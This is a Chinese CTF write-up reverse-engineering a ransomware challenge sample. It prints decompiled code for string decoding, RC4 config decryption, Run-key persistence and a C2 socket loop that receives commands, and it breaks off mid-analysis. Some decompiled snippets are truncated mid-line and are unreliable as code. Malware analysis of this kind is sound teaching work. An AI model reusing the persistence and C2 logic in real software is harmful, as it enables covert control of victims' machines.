# [CTF] 勒索软件解锁(Ransomware Unchained)题解

- 原帖: `https://www.52pojie.cn/forum.php?mod=viewthread&tid=2022313`
- 抓取时间: `2026-11-01T22:11:00`

> Ransomware Unchained (勒索软件脱缰)
> 
> 一种神秘的勒索软件正在肆虐！它锁定文件，执行秘密命令，并与隐藏的 C2 服务器私语。你能分析这些痕迹，找到解密密钥，并在为时已晚之前拯救 flag 吗？

题目给了 一个`sample.exe` 和一个网络流量包 `capture.pcapng`。流量包暂时用不上，先看 `sample.exe`：



1.png (121.79 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=Mjc3MTYxNHw0YjNjYmM1MXwxNzkzNTcxMDU4fDE2ODA4NnwyMDIyMzEz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc3MTYxNHw0YjNjYmM1MXwxNzkzNTcxMDU4fDE2ODA4NnwyMDIyMzEz&nothumb=yes)

2025-4-16 12:09 上传

MSVC 编译的，没有壳，拖到IDA：



2.png (431.43 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=Mjc3MTYxNXw4MDE5ZjkwN3wxNzkzNTcxMDU4fDE2ODA4NnwyMDIyMzEz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc3MTYxNXw4MDE5ZjkwN3wxNzkzNTcxMDU4fDE2ODA4NnwyMDIyMzEz&nothumb=yes)

2025-4-16 12:10 上传

加载后，我们看到了非常清晰的结构。该程序没有混淆，使得分析相对简单。

## 字符串解密函数



3.png (18.55 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=Mjc3MTYxNnw4ZWJiZDJiYnwxNzkzNTcxMDU4fDE2ODA4NnwyMDIyMzEz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc3MTYxNnw4ZWJiZDJiYnwxNzkzNTcxMDU4fDE2ODA4NnwyMDIyMzEz&nothumb=yes)

2025-4-16 12:10 上传



4.png (18.11 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=Mjc3MTYxN3w3NWNmZmEwYXwxNzkzNTcxMDU4fDE2ODA4NnwyMDIyMzEz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc3MTYxN3w3NWNmZmEwYXwxNzkzNTcxMDU4fDE2ODA4NnwyMDIyMzEz&nothumb=yes)

2025-4-16 12:10 上传

首先分析最外层。可以看到它创建了一个互斥锁，并检查错误代码是否为 `ERROR_ALREADY_EXISTS`(183)。

结合输出消息，我们可以推断这是一个检查，以确保只有一个进程实例正在运行。此外，`v3` 调用了一个未知函数，传递了一个看似加密的字符串作为第一个参数，所以需要知道 `v3` 是什么。

根据 `CreateMutexW` 函数原型，我们可以看到 `v3` 实际上是一个`LPCWSTR`：

```
HANDLE CreateMutexW(
  [in, optional] LPSECURITY_ATTRIBUTES lpMutexAttributes,
  [in]           BOOL                  bInitialOwner,
  [in, optional] LPCWSTR               lpName
);
```

`sub_1400013B0` 函数：



5.png (190.57 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=Mjc3MTYxOHw2Y2I1MDhjZXwxNzkzNTcxMDU4fDE2ODA4NnwyMDIyMzEz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc3MTYxOHw2Y2I1MDhjZXwxNzkzNTcxMDU4fDE2ODA4NnwyMDIyMzEz&nothumb=yes)

2025-4-16 12:10 上传

它看起来非常混乱; 显然已经使用 SIMD 进行了优化。让我们逐步分析：

```
  v2 = -1i64;

  v3 = a1;

  do

    ++v2;

  while ( a1[v2] );
```

这计算了 `a1` 的长度，并将 `a1` 赋值给 `v3`。它实际上是一个标准的 `strlen` 实现。

```
  v4 = (unsigned int)(2 * v2 + 2);
  if ( (unsigned int)(2 * v2) >= 0xFFFFFFFE )
    v4 = -1i64;
  v5 = (__m128i *)malloc(v4);
  memset(v5, 0, 2 * (int)v2 + 2);
  v6 = 0;
  v7 = v5;
```

这部分根据计算的长度分配了一个输出缓冲区 `v5`。缓冲区大小是输入的两倍，全部填充为 0，`v7` 作其别名。

```
  if ( (int)v2 > 0 )

  {

    if ( (unsigned int)v2 = v3 )

      goto LABEL_12;

    v9 = _mm_load_si128((const __m128i *)&xmmword_140005670);

    do

    {

      v10 = _mm_move_epi64(si128);

      v11 = _mm_xor_si128(_mm_loadl_epi64((const __m128i *)v3), v10);

      v6 += 32;

      *v7 = _mm_and_si128(_mm_srai_epi16(_mm_unpacklo_epi8(v11, v11), 8u), v9);

      v12 = _mm_xor_si128(_mm_loadl_epi64((const __m128i *)(v3 + 8)), v10);

      v7[1] = _mm_and_si128(_mm_srai_epi16(_mm_unpacklo_epi8(v12, v12), 8u), v9);

      v13 = _mm_xor_si128(_mm_loadl_epi64((const __m128i *)v3 + 1), v10);

      v7[2] = _mm_and_si128(_mm_srai_epi16(_mm_unpacklo_epi8(v13, v13), 8u), v9);

      v14 = _mm_loadl_epi64((const __m128i *)(v3 + 24));

      v3 += 32;

      v15 = _mm_xor_si128(v14, v10);

      v7[3] = _mm_and_si128(_mm_srai_epi16(_mm_unpacklo_epi8(v15, v15), 8u), v9);

      v7 += 4;

    }

    while ( v6 
```

这里的逻辑要关注这部分：

```
if ( (int)v2 > 0 )
...
v6 += 32;
...
if ( v6 
```

首先，这部分检查 `v2` (字符串长度) 是否为 0。如果不是，则处理该字符串。

`v6` 是已处理的输入字节数，`v3` 是指向输入字节的指针。可以看到，每个 SIMD 循环处理 32 个字节，而剩余部分则进入非 SIMD 循环来处理剩余字节。

核心逻辑：

```
v16 = (unsigned int)(v2 - v6);

do

{

  v7 = (__m128i *)((char *)v7 + 2);

  v17 = *v3++ ^ 0x2F;

  v7[-1].m128i_i16[7] = v17;

  --v16;

}

while (v16);
```

这个循环处理剩余的字节。

```
v7 = (__m128i *)((char *)v7 + 2);
v17 = *v3++ ^ 0x2F;
```

看起来它遍历 `v3` (即输入 `a1`) 的剩余字符，将它们与 `0x2F` 进行异或，并将输出指针前进两个字节（这实际上是将 ASCII 转换为宽字符）。

这显然是一个字符串解码函数。我们可以使用以下等效的 Python 函数来实现它：

```
def decode_str(encoded_string):

    decoded_chars = []

    for char in encoded_string:

        decoded_char_code = ord(char) ^ 0x2F

        decoded_chars.append(chr(decoded_char_code))

    return "".join(decoded_chars)
```

尝试解码初始字符串：

```
def main():
    encoded_str = 'lgj}avvdg`k'
    decoded_str = decode_str(encoded_str)
    print(decoded_str)
main()
```

> python .\decode.py

`CHERNYYKHOD`

解码成功，虽然似乎这个字符串用于互斥锁，对这题的意义不大。

## 主逻辑分析

在分析了字符串解密函数之后，让我们看一下主逻辑：

```
      ModuleHandleW = GetModuleHandleW(0i64);
      v5 = GetModuleHandleW(0i64);
      ResourceA = FindResourceA(v5, "DATA", "CONFIG");
      v7 = ResourceA;
      if ( ResourceA
        && (v8 = SizeofResource(ModuleHandleW, ResourceA), (Resource = LoadResource(ModuleHandleW, v7)) != 0i64)
        && (v10 = LockResource(Resource)) != 0i64
        && v8 >= 0x42 )
      {
        v11 = malloc(v8);
        memset(v11, 0, v8);
        memcpy(v11, v10, v8);
        sub_140001750(v11, v8);
        cp = (char *)v11;
        v12 = (const BYTE *)sub_140001530();
        if ( v12 )
        {
          *(_QWORD *)&hKey.sa_family = 0i64;
          if ( !RegOpenKeyExW(
                  HKEY_CURRENT_USER,
                  L"Software\\Microsoft\\Windows\\CurrentVersion\\Run",
                  0,
                  0xF003Fu,
                  (PHKEY)&hKey) )
          {
            if ( *(_QWORD *)&hKey.sa_family )
            {
              cbData = 0;
              Type[0] = 1;
              if ( RegQueryValueExW(*(HKEY *)&hKey.sa_family, L"Cherny", 0i64, (LPDWORD)Type, 0i64, &cbData) == 2 )
              {
                v13 = -1i64;
                while ( *(_WORD *)&v12[2 * v13++ + 2] != 0 )
                  ;
                RegSetValueExW(*(HKEY *)&hKey.sa_family, L"Cherny", 0, 1u, v12, 2 * v13 + 2);
              }
              CloseHandle(*(HANDLE *)&hKey.sa_family);
            }
          }
        }
        *(_QWORD *)&hKey.sa_data[6] = 0i64;
        *(_OWORD *)&hReadPipe = 0i64;
        *(_OWORD *)&hObject = 0i64;
        *(_OWORD *)&hThread = 0i64;
        xmmword_140008730 = 0i64;
        if ( WSAStartup(0x202u, &WSAData) )
          return 0;
        hKey.sa_family = 2;
        *(_WORD *)hKey.sa_data = htons(*((_WORD *)cp + 32));
        *(_DWORD *)&hKey.sa_data[2] = inet_addr(cp);
        v15 = socket(2, 1, 6);
        while ( connect(v15, &hKey, 16) == -1 )
          ;
        *((_QWORD *)&xmmword_140008730 + 1) = v15;
        v16 = malloc(0x400ui64);
        memset(v16, 0, 0x400ui64);
        while ( recv(*((SOCKET *)&xmmword_140008730 + 1), (char *)v16, 1024, 0) )
        {
          sub_1400020C0((LPCSTR)v16);
          memset(v16, 0, 0x400ui64);
        }
        v17 = "Socket closed gracefully.";
```

逐段分析：

```
      ModuleHandleW = GetModuleHandleW(0i64);

      v5 = GetModuleHandleW(0i64);

      ResourceA = FindResourceA(v5, "DATA", "CONFIG");

      v7 = ResourceA;

      if ( ResourceA

        && (v8 = SizeofResource(ModuleHandleW, ResourceA), (Resource = LoadResource(ModuleHandleW, v7)) != 0i64)

        && (v10 = LockResource(Resource)) != 0i64

        && v8 >= 0x42 )

      {

        v11 = malloc(v8);

        memset(v11, 0, v8);

        memcpy(v11, v10, v8);

        sub_140001750(v11, v8);

        cp = (char *)v11;
```

通过查阅相关的 API 文档和函数原型，我们知道这段代码从 PE 文件资源中的 `DATA` 节读取 `CONFIG` 数据，将其存储在 `v10` 中，将数据长度存储在 `v8` 中，并验证其大小是否至少为 `0x42`。

然后，它分配一个该大小的新缓冲区 `v11`，并将数据从 `v10` 复制到 `v11` 中。

随后，它调用一个未知函数 `sub_140001750`，传递 `v11` 和 `v8`，然后将 `v11` 赋值给 `cp`。


```
*(_DWORD *)&hKey.sa_data[2] = inet_addr(cp);
```

从这部分，我们可以看到 `cp` 实际上被用作套接字连接的目标地址，

下断点后动调即可， IP 地址：192.168.138.67



6.png (65.38 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=Mjc3MTYxOXwxM2FlYTY5N3wxNzkzNTcxMDU4fDE2ODA4NnwyMDIyMzEz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc3MTYxOXwxM2FlYTY5N3wxNzkzNTcxMDU4fDE2ODA4NnwyMDIyMzEz&nothumb=yes)

2025-4-16 12:10 上传

当然也可以去慢慢分析，首先提取它：



7.png (40.45 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=Mjc3MTYyMHw1YmU5ZmJhY3wxNzkzNTcxMDU4fDE2ODA4NnwyMDIyMzEz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc3MTYyMHw1YmU5ZmJhY3wxNzkzNTcxMDU4fDE2ODA4NnwyMDIyMzEz&nothumb=yes)

2025-4-16 12:10 上传

`CONFIG` 被加密了,根据上面的调用， `v11` 被传递给 `sub_140001750` 进行一些处理。



8.png (114.08 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=Mjc3MTYyMXxkZGM2YjFiNnwxNzkzNTcxMDU4fDE2ODA4NnwyMDIyMzEz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc3MTYyMXxkZGM2YjFiNnwxNzkzNTcxMDU4fDE2ODA4NnwyMDIyMzEz&nothumb=yes)

2025-4-16 12:10 上传

它看起来有点混乱，分开来看：

```
  v5 = decodeStr(aXgNakxgjJfBvbn);

  cbMultiByte = WideCharToMultiByte(0xFDE9u, 0, (LPCWCH)v5, -1, 0i64, 0, 0i64, 0i64);

  lpMultiByteStr = (char *)malloc(cbMultiByte);

  memset(lpMultiByteStr, 0, cbMultiByte);

  v8 = -1i64;

  do

    ++v8;

  while ( v5->m128i_i16[v8] );

  WideCharToMultiByte(0xFDE9u, 0, (LPCWCH)v5, v8, lpMultiByteStr, cbMultiByte, 0i64, 0i64);
```

第一部分解码了一个特定的字符串，并将其转换为标准的多字节字符串，存储在 `lpMultiByteStr` 中。

```
  v9 = 256i64;
  v10 = (char *)operator new(0x100ui64);
  memset(v10 + 1, 0, 0xFFui64);
  v11 = 0;
  v12 = 0;
  v13 = v10;
  do
    *v13++ = v12++;
  while ( v12 
```

然后它分配 `0x100` 字节的内存，并用 `[0, 256]` 填充它。这实际上是 `SBox` 的初始化。

```
  do

  {

    v16 = *v14;

    v17 = -1i64;

    do

      ++v17;

    while ( lpMultiByteStr[v17] );

    v11 = (v16 + lpMultiByteStr[v15 % v17] + v11) % 256;

    ++v15;

    result = (unsigned __int8)v10[v11];

    *v14++ = result;

    v10[v11] = v16;

    --v9;

  }

  while ( v9 );

  v19 = 0;

  if ( a2 > 0 )

  {

    do

    {

      v4 = (v4 + 1) % 256;

      v20 = (unsigned __int8)v10[v4];

      v19 = (v20 + v19) % 256;

      v10[v4] = v10[v19];

      v10[v19] = v20;

      result = (unsigned __int8)(v20 + v10[v4]);

      *a1++ ^= v10[result];

    }

    while ( v4 
```

这部分显然是个 `RC4` 加密，使用 `lpMultiByteStr` 作为密钥

先解密密钥：

```
def main():
    encoded_str = 'xg`nakxgj}jf|bvbn|{j}'
    decoded_str = decode_str(encoded_str)
    print(decoded_str)
```

> `python .\decode.py`

WHOANDWHEREISMYMASTER

然后，解密 `cp` 数据：

```
def rc4_decrypt(cp_data_enc, key_str="WHOANDWHEREISMYMASTER"):
    key = key_str.encode('utf-8')  # 将密钥字符串转换为字节
    s_box = list(range(256))
    j = 0
    key_len = len(key)
    # KSA (密钥调度算法)
    for i in range(256):
        j = (j + s_box[i] + key[i % key_len]) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]
    # PRGA (伪随机生成算法)
    i = 0
    j = 0
    cp_data_dec = bytearray()
    for char_enc in cp_data_enc:
        i = (i + 1) % 256
        j = (j + s_box[i]) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]
        k = s_box[(s_box[i] + s_box[j]) % 256]
        char_dec = char_enc ^ k
        cp_data_dec.append(char_dec)
    return bytes(cp_data_dec)

def main():
    with open('./cp.bin', 'rb') as f:
        cp_data_encrypted = f.read()
    decrypted_cp = rc4_decrypt(cp_data_encrypted)
    print(decrypted_cp.decode('utf-8', errors='ignore'))
```

> `python .\decode.py`

192.168.138.67P

ok，现在获得了目标 IP 地址：192.168.138.67。

继续分析以下部分：

```
        v12 = (const BYTE *)sub_140001530();
        if ( v12 )
        {
          *(_QWORD *)&hKey.sa_family = 0i64;
          if ( !RegOpenKeyExW(
                  HKEY_CURRENT_USER,
                  L"Software\\Microsoft\\Windows\\CurrentVersion\\Run",
                  0,
                  0xF003Fu,
                  (PHKEY)&hKey) )
          {
            if ( *(_QWORD *)&hKey.sa_family )
            {
              cbData = 0;
              Type[0] = 1;
              if ( RegQueryValueExW(*(HKEY *)&hKey.sa_family, L"Cherny", 0i64, (LPDWORD)Type, 0i64, &cbData) == 2 )
              {
                v13 = -1i64;
                while ( *(_WORD *)&v12[2 * v13++ + 2] != 0 )
                  ;
                RegSetValueExW(*(HKEY *)&hKey.sa_family, L"Cherny", 0, 1u, v12, 2 * v13 + 2);
              }
              CloseHandle(*(HANDLE *)&hKey.sa_family);
            }
          }
        }
```

可以看到从 `sub_140001530` 获取一个字节数组 `v12`。

然后，它将其分配给 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run` 下名为 `Cherny` 的值。

```
#define REG_NONE                    ( 0ul ) // No value type
#define REG_SZ                      ( 1ul ) // Unicode nul terminated string
#define REG_EXPAND_SZ               ( 2ul ) // Unicode nul terminated string
                                            // (with environment variable references)
#define REG_BINARY                  ( 3ul ) // Free form binary
#define REG_DWORD                   ( 4ul ) // 32-bit number
#define REG_DWORD_LITTLE_ENDIAN     ( 4ul ) // 32-bit number (same as REG_DWORD)
#define REG_DWORD_BIG_ENDIAN        ( 5ul ) // 32-bit number
#define REG_LINK                    ( 6ul ) // Symbolic Link (unicode)
#define REG_MULTI_SZ                ( 7ul ) // Multiple Unicode strings
#define REG_RESOURCE_LIST           ( 8ul ) // Resource list in the resource map
#define REG_FULL_RESOURCE_DESCRIPTOR ( 9ul ) // Resource list in the hardware description
#define REG_RESOURCE_REQUIREMENTS_LIST ( 10ul )
#define REG_QWORD                   ( 11ul ) // 64-bit number
#define REG_QWORD_LITTLE_ENDIAN     ( 11ul ) // 64-bit number (same as REG_QWORD)
```

根据 `winnt.h` 中的定义，我们知道该字节数组的类型实际上是 `REG_SZ`，它是一个字符串。

并且 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run` 是用于启动时运行的程序的注册表项。

让我们深入了解此函数：


## 获取程序目录并设置自启动

```
char *sub_140001530()
{
  char *v0; // rbp
  DWORD CurrentDirectoryW; // r13d
  __int64 v2; // rsi
  size_t v3; // r15
  size_t v4; // rcx
  char *v5; // r12
  HANDLE FirstFileW; // r14
  bool v7; // zf
  const WCHAR *ExtensionW; // rax
  __int64 v9; // rbx
  struct _WIN32_FIND_DATAW FindFileData; // [rsp+20h] [rbp-288h] BYREF
  memset(&FindFileData, 0, sizeof(FindFileData));
  v0 = 0i64;
  CurrentDirectoryW = GetCurrentDirectoryW(0, 0i64);
  v2 = -1i64;
  v3 = 2i64 * CurrentDirectoryW;
  v4 = v3 + 4;
  if ( v3 >= 0xFFFFFFFFFFFFFFFCui64 )
    v4 = -1i64;
  v5 = (char *)malloc(v4);
  memset(v5, 0, v3 + 4);
  GetCurrentDirectoryW(2 * CurrentDirectoryW, (LPWSTR)v5);
  *(_DWORD *)&v5[2 * CurrentDirectoryW - 2] = 2752604;
  FirstFileW = FindFirstFileW((LPCWSTR)v5, &FindFileData);
  if ( FirstFileW != (HANDLE)-1i64 )
  {
    if ( PathFindExtensionW(FindFileData.cFileName) == L".exe" )
    {
      do
        v7 = FindFileData.cAlternateFileName[v2++ - 259] == 0;
      while ( !v7 );
      v0 = (char *)malloc(2 * ((unsigned int)v2 + CurrentDirectoryW) + 2);
      memset(v0, 0, 2 * ((unsigned int)v2 + CurrentDirectoryW) + 2);
      memcpy(v0, v5, v3);
      memcpy(&v0[v3], FindFileData.cFileName, 2 * v2);
    }
    else
    {
      while ( FindNextFileW(FirstFileW, &FindFileData) )
      {
        ExtensionW = PathFindExtensionW(FindFileData.cFileName);
        if ( !lstrcmpiW(ExtensionW, L".exe") )
        {
          v9 = -1i64;
          do
            v7 = FindFileData.cAlternateFileName[v9++ - 259] == 0;
          while ( !v7 );
          v0 = (char *)malloc(2 * ((unsigned int)v9 + CurrentDirectoryW) + 2);
          memset(v0, 0, 2 * ((unsigned int)v9 + CurrentDirectoryW) + 2);
          memcpy(v0, v5, v3);
          memcpy(&v0[v3], FindFileData.cFileName, 2 * v9);
        }
      }
    }
  }
  FindClose(FirstFileW);
  return v0;
}
```

粗略地看了一下，可以分析出它实际上获得了当前程序目录的位置。所以这部分的功能是将当前程序设置为在启动时自动运行。

但是，这对于分析这道题并没有太大用处，所以可以忽略它，继续下一部分：

## 套接字通信接收部分

```
*(_OWORD *)&hReadPipe = 0i64;
*(_OWORD *)&hObject = 0i64;
*(_OWORD *)&hThread = 0i64;
xmmword_140008730 = 0i64;
if ( WSAStartup(0x202u, &WSAData) )
  return 0;
hKey.sa_family = 2;
*(_WORD *)hKey.sa_data = htons(*((_WORD *)cp + 32));
*(_DWORD *)&hKey.sa_data[2] = inet_addr(cp);
v15 = socket(2, 1, 6);
while ( connect(v15, &hKey, 16) == -1 )
  ;
*((_QWORD *)&xmmword_140008730 + 1) = v15;
v16 = malloc(0x400ui64);
memset(v16, 0, 0x400ui64);
while ( recv(*((SOCKET *)&xmmword_140008730 + 1), (char *)v16, 1024, 0) )
{
  sub_1400020C0((LPCSTR)v16);
  memset(v16, 0, 0x400ui64);
}
```

这部分是套接字通信接收部分的核心。关注这部分：

```
while ( recv(*((SOCKET *)&xmmword_140008730 + 1), (char *)v16, 1024, 0) )
{
  sub_1400020C0((LPCSTR)v16);
  memset(v16, 0, 0x400ui64);
}
```

可以看到，在接收到数据后，使用 `sub_1400020C0` 处理了这些数据，所以程序的核心逻辑很可能在这里面。

### 3. 接收函数分析

首先分析接收函数的第一部分：

```
  v1 = -1i64;
